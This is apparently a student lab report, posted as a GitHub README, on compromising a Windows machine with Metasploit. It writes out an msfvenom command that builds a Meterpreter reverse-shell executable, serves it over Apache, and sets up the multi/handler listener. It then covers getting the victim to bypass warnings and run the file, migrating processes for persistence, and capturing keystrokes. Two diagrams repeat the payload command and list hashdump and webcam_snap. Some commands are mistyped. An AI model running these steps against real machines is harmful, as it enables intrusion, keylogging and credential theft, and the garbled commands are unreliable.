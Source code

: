 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By
- **Keerthivasan M**
- **212223100021**
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

![image](https://github.com/user-attachments/assets/b98e3dbe-cbf4-465e-83aa-f1ac913b2a51)

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

![image](https://github.com/user-attachments/assets/094f111d-38e4-47a4-b950-8c0544a3463e)

copy the fun.exe into the apache ```/var/www/html ```folder

![image](https://github.com/user-attachments/assets/1a19f712-d904-4e9a-9c3f-a0f824215d01)

Start apache server ```sudo systemctl apache2 start``` 

![image](https://github.com/user-attachments/assets/2944d067-02b2-43fc-9487-5f9e71c393b7)

Check the status of apache2 ```sudo apache2 status```

![image](https://github.com/user-attachments/assets/1577dcc8-8e32-4080-8459-521367056dc0)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![image](https://github.com/user-attachments/assets/d6bd1bdb-3064-45e8-b6b1-e22d2e80209f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/7be60e9f-2ce3-487a-9668-8bdb282e8931)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

![image](https://github.com/user-attachments/assets/596d3916-66f9-4605-8ae4-5dd21116b77a)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/d53176fa-7af0-4f05-b526-91713074335d)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.



## arcg

```bash
+----------------+                           +------------------+
|                |      Reverse Shell        |                  |
| Attacker       | <-------------------------|   Victim (Win)   |
| (Kali Linux)   |       (TCP 4444)          |  Unpatched SMB   |
|  - msfconsole  |                           |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        | Payload generation using msfvenom           |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload
         LHOST=attacker_ip LPORT=4444               or exploit triggers
         -f exe > evil.exe

        |
        | Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     Meterpreter Session Established (shell access)         |
+------------------------------------------------------------+
| Commands: sysinfo, hashdump, migrate, webcam_snap, etc.    |
+------------------------------------------------------------+

```

## 2

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```
